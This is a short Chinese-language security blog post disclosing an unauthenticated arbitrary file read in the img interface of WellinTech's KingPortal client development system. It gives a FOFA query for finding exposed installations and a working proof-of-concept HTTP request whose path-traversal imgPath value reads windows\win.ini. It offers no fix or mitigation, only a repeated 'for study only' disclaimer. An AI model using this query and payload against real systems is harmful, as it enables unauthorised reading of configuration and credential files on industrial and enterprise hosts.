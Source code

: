 #  亚控科技 KingPortal 开发系统 imgPath 文件读取漏洞   
 HK安全小屋   2025-05-09 16:38  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
KingPortal客户端开发系统 img 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  
  
  
影响版本：  
  
亚控科技  
KingPortal客户端  
  
  
FOFA:  
```
app="KingPortal客户端开发系统"
```  
  
  
POC：  
```
GET /kingclient/img?imgPath=..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
```  
  
测试成功读取windows的win.ini文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0CgSzBNL66VLFA0SokF99ASNmSBeUazCt0oZPBdeXyf84Jmu1C5Qu6gZRiaeibiaFlp2C72rFgrshLg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
